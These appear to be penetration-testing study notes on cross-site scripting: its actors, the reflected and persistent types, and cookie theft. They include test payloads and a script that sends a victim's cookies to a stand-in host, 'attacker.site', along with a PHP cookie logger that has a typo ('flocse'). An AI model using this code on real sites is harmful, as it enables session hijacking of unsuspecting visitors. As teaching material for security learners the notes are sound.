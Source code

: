   Actors of a XSS attack:

| Vulnerable Website | User/Visitor \(Victim\) | Penetration Tester |
| :--- | :--- | :--- |
| Inputs should always be validated server side | Code executed/rendered by the browser of the visiting users | Making their browsers load malicous content |
| Never ever trust user input | XSS vulnerabilities have low priority for developers, as it can be really hard for a victim to realize that an attack is in progress | Performing operations on their behalf, like buying a product or changing a password |
|  |  | Stealing the session cookies, thus being able to impersonate them on the vulnerable site |

* Reflection Point: When a search parameter is submitted through a form and gets displayed on the output in an XSS attack
* After finding a reflection point, you have to understand if you can inject HTML code and see if it somehow gets to the output of the page
* Test XSS: `<script>alert('XSS')</script>`

### XSS Types

**Reflected**

* When the malicious payload is carried inside the request that browser of the victim sends to the vulnerable website
* When users click on the link , the users trigger the attack
* `http://victim.site/search.php?find=<payload>`
* Called 'reflected' because an input field of the HTTP request sent by the browser gets immediately reflected to the output page
* Google Chrome has a reflected XSS filter built in to avoid this attack, but only trivial ones

**Persistent**

* Occur when the payload is sent to the vulnerable web server and then stored.
* When a web page of the vulnerable website pulls the stored malicious code and puts it within the HTML output, it will deliver the XSS payload
* The malicious code gets delivered each and every time a web browser hits the "injected" web page
* A single attack can exploit multiple web applications
* The most common vector for persistent attacks are HTML forms that submit content to the web server and then display that content back to the users
* Element such as comments, user profiles, and forum posts are potential vector for XSS attacks

**DOM Based**

Cookie Stealing via XSS

* When `HttpOnly` flag is disabled, cookies can be stolen
* `<script>alert(document.cookie)</script>`
* With the following code, you can send cookies content to an attacker-controlled site:

```javascript
<script>
  var i = new Image();
  i.src = "http://attacker.site/log.php?q="+escape(document.cookie);
</script>
```

```php
<?php
$filename="/tmp/log.txt";
$fp=fopen($filename, 'a');
$cookie=$_GET['q'];
fwrite($fp, $cookie);
flocse($fp);
?>
```
